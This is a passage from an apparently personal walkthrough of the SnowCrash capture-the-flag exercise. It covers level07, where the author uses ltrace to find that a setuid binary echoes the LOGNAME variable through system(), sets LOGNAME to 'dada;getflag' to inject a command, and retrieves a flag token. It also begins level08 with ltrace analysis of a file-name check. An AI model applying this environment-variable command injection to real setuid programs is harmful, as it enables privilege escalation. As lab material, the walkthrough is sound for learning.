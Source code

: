 >endnote

I tried going down this road for a while without success and finally tried the ltrace command.
Simple ltrace showed me the following:

	getenv("LOGNAME")                                             = "level07"
	asprintf(0xbffff704, 0x8048688, 0xbfffff37, 0xb7e5ee55, 0xb7fed280) = 18
	system("/bin/echo level07 "level07
	<unfinished ...>

So now I check the env variable LOGNAME has the username "level07" and that the syscall executes echo to print the LOGNAME variable

	level07@SnowCrash:~$ echo $LOGNAME
	level07
	level07@SnowCrash:~$ export LOGNAME="dada;ls -ls"
	level07@SnowCrash:~$ ./level07
	dada
	ls: cannot open directory .: Permission denied
	level07@SnowCrash:~$ chmod 777 .
	level07@SnowCrash:~$ ./level07
	dada
	total 12
	12 -rwsr-sr-x 1 flag07 level07 8805 Mar  5  2016 level07
	level07@SnowCrash:~$ export LOGNAME="dada;getflag"
	level07@SnowCrash:~$ ./level07
	dada
	Check flag.Here is your token : `fiumuikeil55xe9cu4dood66h`

## level08

have 2 files in home. an exec and a token file.

when I run the exec it outputs:
> ./level08 [file to read]

so I try 
> ./level08 token
outputs:
>You may not access 'token'

I check the rights with ls -la and see token has rights only for user flag08. 

I run an ltrace on the exec and see the following:

	level08@SnowCrash:~$ ltrace ./level08
	__libc_start_main(0x8048554, 1, 0xbffff7a4, 0x80486b0, 0x8048720 <unfinished ...>
	printf("%s [file to read]\n", "./level08"./level08 [file to read]
	)                    = 25
	exit(1 <unfinished ...>
	+++ exited (status 1) +++

It's output is what I expected from running the exec not much else. I then try ltrace with the token as argument:

	level08@SnowCrash:~$ ltrace ./level08 token
	__libc_start_main(0x8048554, 2, 0xbffff7a4, 0x80486b0, 0x8048720 <unfinished ...>
	strstr("token", "token")                                      = "token"
	printf("You may not access '%s'\n", "token"You may not access 'token'
	)                  = 27
	exit(1 <unfinished ...>
	+++ exited (status 1) +++

